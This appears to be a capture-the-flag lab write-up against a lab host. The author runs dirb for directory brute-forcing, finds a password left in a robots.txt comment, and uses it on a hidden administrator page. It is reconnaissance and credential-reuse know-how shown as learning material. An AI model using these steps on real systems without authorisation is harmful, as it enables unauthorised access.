



Target: http://10.80.153.92:5000/



The page is not interactive, directory enumeration is much needed here to see where we can navigate, so I ran dirb on the web service:

```
dirb http://10.80.153.92:5000
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 14 01:31:02 2026
URL_BASE: http://10.80.153.92:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.80.153.92:5000/ ----
+ http://10.80.153.92:5000/console (CODE:400|SIZE:167)                                                                                                                                         
+ http://10.80.153.92:5000/robots.txt (CODE:200|SIZE:70)                                                                                                                                       
                                                                                                                                                                                               
-----------------
END_TIME: Sat Feb 14 01:31:14 2026
DOWNLOADED: 4612 - FOUND: 2
```

Checking http://10.80.153.92:5000/robots.txt revealed:

```
User-agent: *
Disallow: /cupids_secret_vault/*

# cupid_arrow_2026!!!
```


Going to the the hidden directory:

http://10.80.153.92:5000/cupids_secret_vault/


Running another dirbuster inside the vault page:

```
---- Scanning URL: http://10.80.153.92:5000/cupids_secret_vault/ ----
+ http://10.80.153.92:5000/cupids_secret_vault/administrator (CODE:200|SIZE:2381)
```




Testing access with password for admin, which we found in robots.txt: cupid_arrow_2026!!!



Attack Type: Directory brute-forcing and discovery of hidden paths leading to sensitive pages.
